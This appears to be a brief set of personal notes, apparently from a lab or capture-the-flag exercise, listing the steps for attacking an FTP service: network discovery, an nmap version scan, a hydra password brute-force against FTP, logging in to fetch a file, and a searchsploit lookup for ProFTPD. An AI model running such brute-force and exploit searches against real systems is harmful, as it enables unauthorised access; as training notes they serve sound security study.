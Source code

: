 - ifconfig 
- nmap -sV targetip
- ftp IP
- ls -la /usr/share/nmap/scripts/ | grep ftp-*
- hydra -L /users.txt -P /password.txt IP -t 4 ftp
- ftp user@ip or ftp IP and put username pass
- get file.txt 

- searchsploit proftp (to look for vulns on this service )
